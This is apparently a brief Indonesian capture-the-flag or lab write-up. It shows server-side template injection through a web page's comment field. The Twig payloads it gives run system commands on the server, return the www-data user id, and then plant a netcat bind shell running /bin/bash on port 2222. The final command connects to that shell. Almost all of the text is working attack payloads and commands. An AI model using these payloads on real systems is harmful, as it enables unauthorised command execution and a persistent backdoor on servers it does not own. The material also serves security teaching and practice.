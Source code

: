 
Lakukan SSTI ke comment section
```
What is your name?
`
asdasd
`

What is your comment?
`
{{['id']|filter('system')}}
`
```
dan kita akan mendapat display id `uid=33(www-data) gid=33(www-data) groups=33(www-data) Array`

selanjutnya kita bisa coba untuk pasang backdoor dengan port open
```
What is your comment?
`
{{['nc -lvnp 2222 -e /bin/bash']|filter('system')}}
`
```
selanjutnya kita connect ke backdoor dengan cara
```
nc -vn IP-target 2222
```

